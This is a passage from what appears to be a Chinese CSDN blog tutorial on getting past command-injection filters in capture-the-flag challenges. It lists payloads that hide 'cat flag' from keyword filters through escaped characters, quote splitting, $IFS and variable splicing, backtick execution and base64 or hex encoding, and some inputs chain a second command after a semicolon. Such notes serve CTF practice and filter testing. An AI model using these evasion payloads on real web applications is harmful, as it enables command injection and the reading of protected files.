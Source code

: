 ```
```

2，使用[转义符](https://so.csdn.net/so/search?q=转义符&spm=1001.2101.3001.7020)

```bash
ca\t /fl\ag
cat fl''ag
12
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/202008192232265.png#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200819223459949.png#pic_center)

3，内联执行绕过
拼接flag

```bash
1;a=fl;b=ag.php;cat$IFS$a$b
1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020081922324156.png#pic_center)

```bash
（假设该目录下有index.php和flag.php）
cat `ls` 
等同于-->
cat flag.php;cat index.php
1234
```

4，变量绕过

```bash
a=c;b=a;c=t;
$a$b$c 1.txt
12
```

5，编码进制绕过

```dsa
[root~]#  echo 'cat' | base64

Y2F0wqAK

[root~]#  `echo 'Y2F0wqAK' | base64 -d` 1.txt

hello world
1234567
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200819223319938.png#pic_center)

16进制
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020081922334328.png#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200819223413305.png#pic_center)
